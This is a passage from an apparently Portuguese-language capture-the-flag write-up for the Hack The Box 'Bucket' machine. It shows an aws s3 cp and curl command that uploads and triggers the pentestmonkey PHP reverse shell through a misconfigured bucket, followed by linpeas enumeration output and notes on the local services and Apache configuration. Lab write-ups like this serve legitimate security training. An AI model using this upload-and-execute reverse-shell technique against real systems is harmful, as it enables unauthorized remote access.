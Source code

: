 Para um shell reverso, alterei o arquivo a ser enviado de `exploit.php` pelo [pentestmonkey/php-reverse-shell (github.com)](https://github.com/pentestmonkey/php-reverse-shell) que já iniciaria a conexão reversa a um listener previamente definido, sem a necessidade de enviar parâmetros no payload, o qual tivemos sucesso após algumas tentativas.

```bash
aws s3 --endpoint-url http://s3.bucket.htb --profile bucket.htb cp ./exploit.php s3://adserver/ && curl -L http://bucket.htb/exploit.php
```

## User flag

Uma vez com acesso ao shell da máquina, executei o `linpeas.sh` para simplificar a enumeração, onde os seguintes itens foram identificados:

- Usuário local `roy` possui acesso à máquina e, enumerando seu diretório observado a existencia do arquivo `user.txt`, o qual não temos acesso leitura com a conta `www-data` além de uma pasta `project` a ser inspecionada.

  - Este usuário não possui nenhum processo em execução que eventualmente permita a exploração logo precisaremos obter suas credenciais de alguma forma.

- Alguns outros serviços encontram-se em execução nesta máquina, funcionando nas portas 4566, 8000 e 38443, que possivelmente venham a dar privilégios a outras atividades em um segundo momento.

```plaintext
[+] Active Ports                                                                                         
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-ports                               
Active Internet connections (servers and established)                                                     
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name         
tcp        0      0 127.0.0.1:38443         0.0.0.0:*               LISTEN      -                        
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                         
tcp        0      0 127.0.0.1:4566          0.0.0.0:*               LISTEN      -                         
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                         
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                     
```

- Esta máquina possui serviços de container em execução (`ctr`, `runc`), que executam provavelmente o localstack e que poderiam ser avaliados para escalação de privilégios.

- Existe um diretório `/var/www/bucket-app` que pode ser a aplicação servida em uma das portas identificadas, mas que não possuímos acesso de leitura com a conta utilizada.

Dos pontos mencionados, o que mais chamou atenção foi o possível website em execução nas portas citadas, logo iniciei por verificar as configurações ativas no Apache (`/etc/apache2/sites-enabled`) onde tínhamos o arquivo `000-default.conf` listado abaixo, mas não encontrei nada sobre a porta 38443, mas tive a informação sobre a porta 4566, que é publicada pela porta 80 e na porta 8000, que é publicado o website disponível na pasta `/var/www/bucket-app`.
